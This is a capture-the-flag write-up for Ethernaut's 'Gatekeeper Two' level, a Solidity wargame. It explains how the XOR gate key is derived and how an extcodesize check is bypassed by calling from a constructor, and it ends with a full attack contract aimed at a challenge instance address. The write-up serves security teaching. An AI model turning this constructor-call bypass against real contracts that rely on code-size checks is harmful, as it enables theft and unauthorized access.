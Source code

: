 # Level 14: [Gatekeeper Two](https://ethernaut.openzeppelin.com/level/0xf59112032D54862E199626F55cFad4F8a3b0Fce9)

## Level objectives:
1. Make it past the gatekeeper, and register as an entrant.

## Analysis (lol)
- Gate three: `require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);`
- key xor B = C => key = B xor C;
- To pass gate 2, our contract's code-size needs to be zero.
- We can bypass this either by running the attack in the constructor, or by running the attack in a delegated contract's constructor.

## Steps:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

contract AttackGatekeeperTwo {
    constructor() {
        uint64 key = type(uint64).max ^ uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        address(0x68eC7073bd1c3B43Ca0d8edA4673584530A5a024).call(abi.encodeWithSignature("enter(bytes8)", key));
    }
}
```